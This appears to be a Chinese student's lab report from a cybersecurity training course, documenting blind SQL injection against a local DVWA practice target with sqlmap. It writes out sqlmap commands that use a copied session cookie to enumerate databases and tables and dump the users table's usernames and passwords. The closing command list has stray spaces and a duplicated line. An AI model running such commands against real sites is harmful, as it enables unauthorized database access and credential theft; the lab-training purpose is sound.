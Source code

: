 ```yaml
---
title: "网络安全实训6——SQL注入"
tags:
  - 网络安全实训
  - SQL注入
categories:
  - 网络安全
  - 实训
  - 实验报告
date: 2024-07-13 08:06:00
cover: https://img-blog.csdnimg.cn/6a525f6f18c64ca788535b07bd3b86ec.png#pic_center
---
```


# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

![image-20240713082058344](../img/zuolao/6/image-20240713082058344.png)

![image-20240713082140158](../img/zuolao/6/image-20240713082140158.png)

查看源码发现是外部引用，尝试恢复

恢复成功

![image-20240713082204564](../img/zuolao/6/image-20240713082204564.png)

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

![image-20240713082833701](../img/zuolao/6/image-20240713082833701.png)

安全等级调 low

![image-20240713082944615](../img/zuolao/6/image-20240713082944615.png)

进入 SQL Injection（Blind）页面

![image-20240713083014817](../img/zuolao/6/image-20240713083014817.png)

### 随意输入一个数字，然后点击提交

![image-20240713083040908](../img/zuolao/6/image-20240713083040908.png)

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

![image-20240713083253628](../img/zuolao/6/image-20240713083253628.png)

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

![image-20240713083823046](../img/zuolao/6/image-20240713083823046.png)

![image-20240713084248322](../img/zuolao/6/image-20240713084248322.png)

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

![image-20240713084138720](../img/zuolao/6/image-20240713084138720.png)

找到注入点

![image-20240713085141292](../img/zuolao/6/image-20240713085141292.png)

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

![image-20240713085259586](../img/zuolao/6/image-20240713085259586.png)

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

![image-20240713085348741](../img/zuolao/6/image-20240713085348741.png)

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

![image-20240713085431822](../img/zuolao/6/image-20240713085431822.png)

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

![image-20240713085615328](../img/zuolao/6/image-20240713085615328.png)

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

![image-20240713085739164](../img/zuolao/6/image-20240713085739164.png)

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

![image-20240713090351933](../img/zuolao/6/image-20240713090351933.png)

重试了一下正常了

![image-20240713090344216](../img/zuolao/6/image-20240713090344216.png)

## 过程中的命令

输入命令的时候容易出错的地方主要是：引号必须加，否则命令会被识别为系统&命令，还有英文字符，写成中文字符会报错

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --dbs

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --current-db

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C "user, password" --dump
